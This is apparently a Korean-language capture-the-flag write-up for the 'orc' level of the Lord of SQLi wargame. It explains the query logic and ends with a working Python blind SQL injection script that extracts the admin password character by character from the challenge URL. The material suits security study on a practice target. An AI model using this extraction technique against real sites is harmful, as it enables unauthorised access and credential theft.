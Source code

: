 <img width="88" alt="스크린샷 2020-01-14 오후 2 49 06" src="https://user-images.githubusercontent.com/54495632/72317860-ec65fa80-36dd-11ea-889b-45323437421d.png">

4번 ORC

<img width="651" alt="스크린샷 2020-01-14 오후 2 49 12" src="https://user-images.githubusercontent.com/54495632/72317872-f12aae80-36dd-11ea-9287-ba881c08323d.png">

쿼리 자체는 이미 id에 admin이 입력되어 있는 형태이고
pw를 찾아서 입력하면 문제를 해결할 수 있다.

preg_match로 딱히 중요한게 필터링 되지는 않는다.

<img width="637" alt="스크린샷 2020-01-14 오후 2 51 05" src="https://user-images.githubusercontent.com/54495632/72317917-1cad9900-36de-11ea-9311-d8ac5f4e5a12.png">

다음과 같은 형식으로 pw의 길이를 찾았다.
pw의 where절 조건을 TRUE로 맞추면 id=admin에 의해
Hello admin이 출력된다.

<img width="294" alt="스크린샷 2020-01-14 오후 2 55 01" src="https://user-images.githubusercontent.com/54495632/72317974-4d8dce00-36de-11ea-8196-040673102328.png">

길이가 8이라는 조건을 이용하여 파이썬으로 해당 pw를 찾았다.

<img width="611" alt="스크린샷 2020-01-14 오후 2 55 16" src="https://user-images.githubusercontent.com/54495632/72317984-5a122680-36de-11ea-8e8e-48a62970f4e4.png">

알맞은 pw를 입력하여 문제를 해결하였다.

import requests

cookies={'PHPSESSID':'넣을 쿠키값'}
url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?"

pw=""
for i in range(1,9):
    for j in range(33,128):
        query="pw=%27or+ascii%28mid%28pw%2C"+str(i)+"%2C1%29%29%3D"+str(j)+"%23"
        geturl=url+query
        res=requests.get(geturl,cookies=cookies)
        if((res.text).find("Hello admin")>0):
            pw+=chr(j)
            print (pw)
            break

print ("finish pw :"+pw)
